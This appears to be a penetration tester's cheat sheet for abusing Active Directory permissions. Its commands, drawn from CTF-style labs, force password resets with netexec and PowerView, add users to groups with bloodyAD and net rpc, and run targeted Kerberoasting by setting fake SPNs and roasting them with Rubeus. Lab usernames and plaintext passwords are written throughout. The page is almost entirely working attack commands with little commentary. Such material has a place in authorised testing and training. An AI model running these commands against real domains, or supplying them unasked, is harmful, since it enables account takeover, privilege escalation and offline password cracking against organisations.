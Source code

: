 #### Password Reset (User-Force-Change-Password)
Linux
```bash
netexec smb 10.10.11.69 -u p.agila -p 'prometheusx-303' -M change-password -o USER=winrm_svc NEWPASS='Pwned123!'
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```
#### Adding User to Group (GenericWrite)
Linux
```powershell
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember "Infrastructure" "Alfred"

net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

---

Windows
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```